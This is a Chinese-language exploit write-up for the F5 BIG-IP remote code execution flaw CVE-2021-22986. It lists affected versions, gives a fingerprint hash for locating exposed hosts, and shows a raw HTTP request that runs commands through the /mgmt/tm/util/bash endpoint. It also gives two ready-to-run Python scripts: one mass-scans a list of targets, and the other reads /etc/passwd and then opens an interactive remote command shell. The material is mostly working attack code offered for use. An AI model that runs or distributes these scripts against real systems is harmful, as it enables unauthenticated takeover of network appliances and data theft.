




# F5 BIG-IP 远程代码执行漏洞 CVE-2021-22986

## 漏洞描述

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。

近日，F5发布了F5 BIG-IQ/F5 BIG-IP 代码执行，代码执行的风险声明，F5安全公告更新了BIG-IP，BIG-IQ中的多个严重漏洞。建议广大用户及时将f5 big-iq,f5 big-ip升级到最新版本，避免遭到攻击。

## 漏洞影响

```
F5 BIG-IP 16.x: 16.1.0.3
F5 BIG-IP 15.x: 15.1.0.4
F5 BIG-IP 14.x: 14.1.2.6
F5 BIG-IP 13.x: 13.1.3.4
F5 BIG-IP 12.x: 12.1.5.2
F5 BIG-IP 11.x: 11.6.5.2
```

## 网络测绘

```
icon_hash="-335242539"
```

## 漏洞复现


访问登录页面如下





发送请求包


```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: xxx.xxx.xxx.xxx:8443
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{"command":"run","utilCmdArgs":"-c id"}
```





成功执行命令 id


## 漏洞POC


**批量测试**


```python
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/mgmt/tm/util/bash"
    headers = {
        "Authorization": "Basic YWRtaW46QVNhc1M=",
        "X-F5-Auth-Token": "",
        "Content-Type": "application/json"
    }
    data = '{"command":"run","utilCmdArgs":"-c id"}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=2)
        if "commandResult" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞,响应为:{} \033[0m".format(target_url, json.loads(response.text)["commandResult"]))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "https://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```





**命令执行**


```python
import requests
import sys
import random
import re
import base64
import time
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/mgmt/tm/util/bash"
    headers = {
        "Authorization": "Basic YWRtaW46QVNhc1M=",
        "X-F5-Auth-Token": "",
        "Content-Type": "application/json"
    }
    data = '''{"command":"run","utilCmdArgs":"-c 'cat /etc/passwd'"}'''
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if 'root' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞,响应为:{} \033[0m".format(target_url, json.loads(response.text)["commandResult"]))
            while True:
                Cmd = str(input("\033[35mCmd >>> \033[0m"))
                POC_2(target_url, Cmd)
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_2(target_url, Cmd):
    vuln_url = target_url + "/mgmt/tm/util/bash"
    headers = {
        "Authorization": "Basic YWRtaW46QVNhc1M=",
        "X-F5-Auth-Token": "",
        "Content-Type": "application/json"
    }
    Cmd = "'" + Cmd + "'"
    data = '{"command":"run","utilCmdArgs":"-c %s"}' % Cmd
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[32m{} \033[0m".format(json.loads(response.text)["commandResult"]))
    except Exception as e:
        print("\033[31m[x] 命令执行失败 \033[0m".format(target_url), e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


